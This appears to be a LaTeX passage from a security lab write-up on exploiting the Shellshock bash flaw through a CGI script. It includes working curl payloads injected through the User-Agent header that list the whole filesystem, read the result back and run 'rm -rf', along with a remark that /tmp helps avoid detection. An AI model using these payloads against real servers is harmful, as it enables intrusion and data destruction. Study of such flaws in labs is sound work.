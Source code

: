 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{Exploiting \texttt{CGI} Vulnerability}
To exploit the Shellshock vulnerability, we make use of the User-Agent field. Due to the way \texttt{bash} executes trailing code, the malicious code to be executed will be appended to the back, before ending with the URL of the page. In this instance, we can print out all the files and the directories on the remote system.
\begin{verbatim}
curl -A "() { :;}; echo Content_type: text/plain; /bin/ls -l -R /
> /tmp/listdir.txt" http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
\texttt{/tmp} is used to store the output as it is world-writable, not easily detectable and cleaned after every reboot. If we would like to print the contents of the file that was just written, we can perform the same attack and change the command to be used.
\begin{verbatim}
curl -A "() { :;}; echo Content_type: text/plain; /bin/cat
/tmp/listdir.txt" http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
If an attacker wants to do cripple a system, a simple command using \texttt{rm -rf} will permanently delete any file that is accessible by the Apache user account on the system.
\begin{verbatim}
curl -A "() { :;}; echo Content_type:text/plain; /bin/rm -rf"
http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
The vulnerability in the \texttt{bash} code is reflected in Figure 2. The reflected code preserves backwards compatibility by allowing functions to be imported, but can now be exploited to execute malicious code.
\begin{figure}[H]
	\centering
	\texttt{[image: oldbash]}
	\caption{Code Vulnerability}
	\label{fig:oldbash}
\end{figure}
\end{document}
